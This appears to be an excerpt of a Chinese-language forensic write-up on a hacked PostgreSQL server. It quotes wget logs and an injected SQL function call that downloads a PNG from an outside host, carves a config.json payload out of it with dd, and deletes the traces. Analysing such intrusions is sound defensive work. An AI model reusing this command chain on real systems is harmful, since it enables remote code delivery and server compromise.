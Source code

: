 ```
5179   1400K .......... .......... .......... .......... .......... 53%  134K 10s
5180   1450K .......... .......... .......... .......... .......... 55%  106K 10s
5181   1500K .......... .......... .......... .......... .......... 57%  188K 10s
5182   1550K .......... .......... .......... .......... .......... 59% 51.4K 9s
5183   1600K .......... .......... .......... .......... .......... 61% 54.6K 9s
5184   1650K .......... .......... .......... .......... .......... 63% 86.8K 9s
5185   1700K .......... .......... .......... .......... .......... 64%  160K 8s
5186   1750K .......... .......... .......... .......... .......... 66% 97.9K 8s
5187   1800K .......... .......... .......... .......... .......... 68%  153K 8s
5188   1850K .......... .......... .......... .......... .......... 70%  127K 7s
5189   1900K .......... .......... .......... .......... .......... 72%  117K 7s
5190   1950K .......... .......... .......... .......... .......... 74% 63.8K 6s
5191   2000K .......... .......... .......... .......... .......... 76%  119K 6s
5192   2050K .......... .......... .......... .......... .......... 77% 67.1K 5s
5193   2100K .......... .......... .......... .......... .......... 79% 98.0K 5s
5194   2150K .......... .......... .......... .......... .......... 81%  127K 5s
5195   2200K .......... .......... .......... .......... .......... 83%  105K 4s
5196   2250K .......... .......... .......... .......... .......... 85% 99.6K 4s
5197   2300K .......... .......... .......... .......... .......... 87% 76.9K 3s
5198   2350K .......... .......... .......... .......... .......... 89%  162K 3s
5199   2400K .......... .......... .......... .......... .......... 90%  153K 2s
5200   2450K .......... .......... .......... .......... .......... 92%  239K 2s
5201   2500K .......... .......... .......... .......... .......... 94%  160K 1s
5202   2550K .......... .......... .......... .......... .......... 96%  191K 1s
5203   2600K .......... .......... .......... .......... .......... 98%  118K 0s
5204   2650K .......... .......... .......... .......... ...       100% 82.4K=24s
5205
5206 2018-08-11 15:47:54 (111 KB/s) - ‘xmm’ saved [2758655/2758655]
5207
```

2. 发现更早的日志里，有两个连接从 `img1.imagehousing.com` 下载了两张图片, 并成功设置了 777 权限

```
 23 Resolving img1.imagehousing.com (img1.imagehousing.com)... 104.27.180.36, 104.27.181.36, 2400:cb00:2048:1::681b:b524, ...
 24 Connecting to img1.imagehousing.com (img1.imagehousing.com)|104.27.180.36|:80... connected.
 25 HTTP request sent, awaiting response... 200 OK
 26 Length: 1571 (1.5K) [image/png]
 27 Saving to: ‘./conf1.dat’
 28
 29      0K .                                                     100%  368M=0s
 30
 31 2018-08-05 12:54:26 (368 MB/s) - ‘./conf1.dat’ saved [1571/1571]
 32
 33 896+0 records in
 34 896+0 records out
 35 896 bytes copied, 0.000933778 s, 960 kB/s
 36 chmod: cannot access './x4064410502': No such file or directory
 37 2018-08-05 12:54:26 CST [24806-14] pgsql@postgres LOG:  duration: 810.107 ms  statement: select fun6404402637 ('wget  -c  http://img1.imagehousing.com/0/baby-942650.png -O ./conf1.dat;dd  skip=675  bs=1  if=./conf1.dat  of=config.json  ;rm -f ./conf1#
 38 --2018-08-05 12:54:27--  http://img1.imagehousing.com/0/cat-497532.png
 39 Resolving img1.imagehousing.com (img1.imagehousing.com)... 104.27.180.36, 104.27.181.36, 2400:cb00:2048:1::681b:b424, ...
 40 Connecting to img1.imagehousing.com (img1.imagehousing.com)|104.27.180.36|:80... connected.
 41 HTTP request sent, awaiting response... 200 OK
 42 Length: 840464 (821K) [image/png]
 43 Saving to: ‘ifzsvasg.jpg’
 44
 45      0K .......... .......... .......... .......... ..........  6% 81.3K 9s
 46     50K .......... .......... .......... .......... .......... 12%  153K 7s
 47    100K .......... .......... .......... .......... .......... 18% 86.2K 7s
 48    150K .......... .......... .......... .......... .......... 24%  635K 5s
```